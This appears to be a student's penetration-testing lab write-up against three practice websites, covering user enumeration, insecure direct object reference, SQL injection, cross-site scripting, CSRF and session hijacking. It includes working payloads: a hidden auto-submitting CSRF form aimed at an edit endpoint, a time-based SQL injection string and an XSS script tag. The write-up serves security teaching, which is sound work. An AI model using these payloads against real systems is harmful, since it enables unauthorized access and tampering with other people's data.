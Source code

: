 Unit 9
Pentesting Live Targets

List of Exploits
1.	User Enumeration
2.	Insecure Direct Object Reference
3.	SQL Injection
4.	Cross-Site Scripting
5.	Cross-Site Request Forgery
6.	Session Hijacking/Fixation

Red

Exploit 1: Insecure Direct Object Reference

Procedure:

You can access hidden user profiles and information that you should not be able to view. This is done by modifying the ‘id’ parameter in the URL to a different number to change the get request. This gives you access to hidden accounts if the correct id number is used.

![](Red1.gif)

Exploit 2: Cross-Site Request Forgery

Procedure:

You can create an html file that takes over a session in order to modify and forge a database request if they select the link. You submit the form through the “Contact Us” page and give some incentive for the user to go to the html file page. This then puts into effect your changes from the html file into the website/database.

![](Red2.gif)

The following is the hmtl form we injected (form.html) :

    <title>I AM REAL</title>
    
  </head>
  
  <body onload="document.my_form.submit()">
    
    <form action="https://35.184.88.145/red/public/staff/salespeople/edit.php?id=5" method="POST" name="my_form" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="BEAN" />
      
      <input type="text" name="last_name" value="Var" />
      
      <input type="text" name="phone" value="111-867-5309" />
      
      <input type="text" name="email" value="gmail@yahoo.com" />
      
    </form>
    
    <iframe name="hidden_results" style="display: none;"></iframe>
    
  </body>
  
</html>

Blue

Exploit 1: SQL Injection

Procedure: 

You are able to inject a SQL command into the URL that will be executed. You do so by entering the desired command in place of the id number in the URL. Here we use a sleep command to make the site wait for the desired amount of time we enter. The command we used was:

%27%20OR%20SLEEP(10)=0--%27

![](Blue1.gif)

Exploit 2: Session Hijacking/Fixation

Procedure:

You steal the session id of a user who is logged into the website. After taking this session ID, we use burp to intercept our request to access a page and replace our session ID with the stolen one. Since we are not signed in, we were unable to access the desired page, but by using the stolen session id we are given permission to access this page we normally cannot.

![](Blue2.gif)

Green

Exploit 1: User Enumeration

Procedure:

We notice that there are two different errors given when entering an incorrect username/password combination. When we enter a username that is valid, but an incorrect password, the error message we receive is in bold lettering. However, when we enter an incorrect username, we receive the same error message but in standard (not bold) type. Under further inspection, we see that there are two different classes assigned to each situation. Class “failure” applies to a valid username but incorrect password, while class “failed” applies to an incorrect username. Using this knowledge, we can go through and brute force usernames to gain knowledge about what user’s exist in the system and which do not.

![](Green1.gif)

Exploit 2: Cross-Site Scripting

Procedure:

We are able to use the sites feedback form to inject a Cross-Site Scripting command. Once the user checks their feedback page, the script will run. The command we use is: 

<script>alert('I have made it in!');</script>

![](Green2.gif)
